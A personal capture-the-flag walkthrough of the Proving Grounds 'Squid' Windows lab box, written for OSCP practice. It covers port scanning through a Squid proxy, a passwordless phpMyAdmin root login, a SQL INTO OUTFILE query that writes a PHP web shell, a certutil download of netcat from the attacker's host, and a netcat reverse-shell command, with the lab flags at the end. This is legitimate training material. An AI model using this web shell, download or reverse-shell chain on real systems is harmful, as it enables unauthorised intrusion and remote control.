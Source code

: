 ```yaml
---
Date: 2024-10-22
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: Complete
IP: 192.168.146.189
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-26-proving-grounds-squid-d8043f1f77e2
---
```

# Squid
Everything about this box was a refresher, and there's no doubt I leaned heavily on the walkthrough as I was doing it. Learning about Squid and `spose.py` was interesting, but there's a concern that `spose.py` is pretty niche and I may never have found it (or realised I needed it) without the walkthrough. 

Maybe it's just more familiarity though, and with more practice I'll get better at knowing how to tackle different Windows services. There's no question I learned more about how proxies work from this box, and setting up FoxyProxy to reach the target's open ports was particularly interesting.

Figuring out the MySQL query was challenging too, and I'm not sure I would have figured it out without the walkthrough. Now that I've done it though, I can absolutely see how it works, so there's no question I'd try something similar if I came across the option to enter sql queries into an admin panel again. Understanding how those queries relate to the document root is also awesome to know, and not something I remember being covered in the course content.

Finally, this box helped put the pieces together on some of the netcat commands I've been running but not fully understanding - I needed the walkthrough to spell it out, and now that I've seen it in action I actually get what I've been doing previously when I've copy/pasted stuff in to make it work.

All round, I'm a little frustrated that I've needed so much walkthrough support on what is supposed to be an "easy" box, but the important thing is I keep working away at these boxes each night and learn from each one - it's way better to spend 2 hours following a walkthrough and being able to process the lessons from it, than it is to spend 5 hours bashing my head against the keyboard not understanding and being too stubborn to look at someone else's answers.

# Resolution summary
- Ran Nmap to identify ports `135`, `139`, `445` & `3128`
- Identified port `3128` as running `Squid v4.14`
- Used `spose.py` to identify ports behind `Squid` proxy
- Setup FoxyProxy to use `Squid` proxy and navigated to port `8080`
- Identified `myPHPAdmin` login and password guessed access
- Identified document root, then ran `MySQL` query to create php page which allowed command injection
- Tested command injection, then uploaded netcat to target
- Used command injection to launch netcat on target with reverse shell to Kali machine
- Caught reverse shell as `system`, then navigated to `C:\` and `C:\Users\Administrator\Desktop` to print flags
## Improved skills
- Windows service enumeration
- PHP command injection
- Netcat broadcaster
## Used tools
- nmap
- python
- spose.py
- FoxyProxy
- certutil

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN squid.nmap 192.168.146.189 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3128/tcp open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-22T07:50:13
|_  start_date: N/A
```
---
# Enumeration
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Windows Netbios-SSN)
No enumeration conducted
## Port 3128 - HTTP (Squid http proxy 4.14)
- Navigated to `http://192.168.146.189:3128` and identified `Squid/4.14`
![[Pasted image 20241022183533.png]]
- Downloded `spose.py` Squid Pivoting Open Port Scanner) and ran `python3 spose.py --proxy http://192.168.146.189:3128 --target 192.168.146.189` to identify open ports `3306` and `8080` behind proxy
![[Pasted image 20241022184332.png]]
- Setup FoxyProxy with hostname `192.168.146.189` and port `3128`
![[Pasted image 20241022184554.png]]
- Navigated to `http://192.168.146.189:8080` via proxy `3128` and identified `Wampserver v3.2.3` and aliases
![[Pasted image 20241022184838.png]]
- Followed link `phpinfo()`, navigated to `http://192.168.146.189:8080/?phpinfo=-1` and identified `PHP v7.3.21`
![[Pasted image 20241022185105.png]]
- Identified `Document_Root` in directory `C:/wamp/www`
![[Pasted image 20241022185425.png]]
- Navigated to `http://192.168.146.189:8080/phpmyadmin/` and identified `phpMyAdmin` login page
![[Pasted image 20241022185530.png]]
- Attempted password guessing with `root:` (No Password) and gained admin access
![[Pasted image 20241022185627.png]]
---
# Exploitation
Selected "SQL" tab, navigated to `http://192.168.146.189:8080/phpmyadmin/db_sql.php?db=mysql` , and successfully ran SQL query 
```
`select '<?php system($_GET["cmd"]); ?>;' into outfile 'C:/wamp/www/revshell.php'
```
![[Pasted image 20241022190415.png]]
- Navigated to `http://192.168.146.189:8080/revshell.php?cmd=dir` and confirmed code execution
![[Pasted image 20241022190949.png]]
- Uploaded `nc2.exe` from Kali host to target via `certutil` by navigating to `http://192.168.146.189:8080/revshell.php?cmd=certutil%20-urlcache%20-f%20http://192.168.45.209:80/nc2.exe%20nc2.exe`
![[Pasted image 20241022191602.png]]
- Setup netcat listener on port `1234` and created reverse shell by navigating to `http://192.168.146.189:8080/revshell.php?cmd=nc2.exe%20192.168.45.209%201234%20-e%20cmd.exe` 
![[Pasted image 20241022193428.png]]
- Navigated to `C:\` and ran `type C:\local.txt` to print `e1e484bbc0c7fbccaf088074d318848d`
- Navigated to `C:\Users\Administrator\Desktop` and ran `type C:\Users\Administrator\Desktop\proof.txt` to print `f1d847afd8a8cee6ca94ad3008ce4ec9`
---
# Trophy & Loot
`local.txt` = `e1e484bbc0c7fbccaf088074d318848d`
`proof.txt` = `f1d847afd8a8cee6ca94ad3008ce4ec9`
